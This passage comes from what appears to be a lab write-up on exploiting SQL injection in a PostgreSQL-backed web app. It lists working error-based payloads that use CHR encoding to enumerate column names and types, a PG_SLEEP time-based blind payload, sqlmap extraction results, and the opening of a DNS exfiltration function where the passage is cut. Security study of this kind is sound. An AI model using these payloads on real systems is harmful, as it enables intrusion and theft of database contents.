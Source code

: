         - After this, we will find out the name of the first column by using attname column by joining other tables with id and relname as table and nspname as schema.
            - Query: `1 AND 7273=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT COALESCE(CAST(attname AS VARCHAR(10000))::text,(CHR(32))) FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname=(CHR(112)||CHR(114)||CHR(111)||CHR(100)||CHR(117)||CHR(99)||CHR(116)||CHR(115)) AND nspname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY attname OFFSET 0 LIMIT 1)::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
            - Result: ![](https://i.imgur.com/2fuvJyI.png)
        - Finally, we will get the column type base on typname column by joining other tables with id and relname as table and nspname as schema.
            - Query: `1 AND 4733=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT COALESCE(CAST(typname AS VARCHAR(10000))::text,(CHR(32))) FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname=(CHR(112)||CHR(114)||CHR(111)||CHR(100)||CHR(117)||CHR(99)||CHR(116)||CHR(115)) AND nspname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)) ORDER BY attname OFFSET 0 LIMIT 1)::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
            - Result: ![](https://i.imgur.com/6YVrD1R.png)
    - Step 5: Data extrafilcation
        - After having information about the first column, table, and schema, getting information about all other columns, tables and schema can be achive in the same way, so on we can extract all the data now, here is our result after using sqlmap to exploit.
            - Result: ![](https://i.imgur.com/FJl9yxV.png)
### Time-based SQL injection
- On the next attacking type(it also follows the mentioned attacking vector), we gonna base on time to exploit SQL injection. In this attack, we will trigger a sleep statement on the server by using SLEEP function, and based on this mechanism we will make the server sleep when it returns the right condition and no sleep for the opposite. The only disadvantage of this attack is that it takes a lot of time to fully extract the data because the true false condition only can work with 1 word per time and if it right condition server needs to wait seconds for the tool to verify the word.
    - For example: On the first query, we will extract the schema name by using time wait with the true false condition. As you can see the server takes 5 seconds to load the website as we take the first letter int cast is larger than 64 which is correct. From there we got the first letter of the schema name.
        - Query: `1 AND 9407=(CASE WHEN (ASCII(SUBSTRING((COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32))))::text FROM 1 FOR 1))>64) THEN (SELECT 9407 FROM PG_SLEEP(5)) ELSE 9407 END)` 
        - Result:![](https://i.imgur.com/GFOgph7.png)
- In this way, sqlmap will flow the mentioned attacking vector and retrieve all the data here is our result.
    - Result:
    ![](https://i.imgur.com/mWOc3jQ.png)
    ![](https://i.imgur.com/4TTRH1c.png)
    ![](https://i.imgur.com/Jl8mpT1.png)
### data exfiltration with DNS
- Query explains:
    -  create OR replace function f() returns void as $$

        declare c text;
